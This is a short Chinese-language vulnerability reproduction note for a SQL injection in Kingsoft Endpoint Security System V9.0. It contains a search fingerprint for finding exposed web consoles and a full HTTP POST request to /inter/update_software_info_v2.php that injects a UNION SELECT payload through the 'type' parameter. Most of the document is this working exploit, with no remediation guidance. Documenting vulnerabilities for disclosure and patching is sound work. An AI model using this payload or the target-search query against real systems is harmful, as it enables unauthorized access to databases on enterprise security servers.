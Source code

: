 # 金山终端安全系统V9.0 SQL注入漏洞

### 一、漏洞描述
<font style="color:rgb(0, 0, 0);">金山终端安全系统是一款为企业提供终端防护的安全产品，针对恶意软件、病毒和外部攻击提供防范措施，帮助维护企业数据和网络。</font>

### 二、影响版本
金山终端安全系统V9.0

### 三、资产测绘
app="金山终端安全系统V9.0Web控制台" 

特征：

![1708655780558-39f26009-21b3-4401-a4dc-5c95b44a6fcd.png](./img/rElhjlKBz286TiEn/1708655780558-39f26009-21b3-4401-a4dc-5c95b44a6fcd-030937.png)

### 四、漏洞复现
```plain
POST /inter/update_software_info_v2.php HTTP/1.1
Content-type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Host: 139.xxx.xxx.xxx:6868
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 80
Connection: close

type=-100+UNION+SELECT+1,md5(078674232),1,1,1,1,1,1--&key=&pageCount=0&curPage=
```

![1708798065830-b49297cc-2af2-42c5-b632-673baac678c4.png](./img/rElhjlKBz286TiEn/1708798065830-b49297cc-2af2-42c5-b632-673baac678c4-069542.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aqzk9xw44zcyzkgt>